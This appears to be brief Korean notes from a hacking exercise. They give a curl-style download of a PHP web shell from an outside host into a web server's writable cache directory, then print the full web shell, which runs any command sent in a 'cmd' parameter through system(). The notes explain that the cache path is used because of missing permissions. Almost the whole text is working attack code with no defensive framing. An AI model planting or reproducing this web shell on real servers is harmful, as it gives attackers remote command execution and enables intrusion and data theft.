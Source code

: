 # 익스플로잇 코드
`http://ehredev.me/web_shell/index.php -o /var/www/html/cache/hack.php`

# 웹쉘 코드
```php
<html>
    <body>
        <form method = "GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
            <input type = "text" name = "cmd" autofocus id = "cmd" size = 80>
            <input type = "submit" value = "Exploit">
        </form>
        <pre>
            <?php
                if(isset($_GET['cmd'])){
                    system($_GET['cmd']);
                }
            ?>
        </pre>
    </body>
</html>
```
웹쉘을 브라우저안에 심는 방법, curl이니까 -o를 이용해서 다운로드 받고, 그 경로로 가서 실행
cache를 사용하는 이유는 권한이 없기 때문

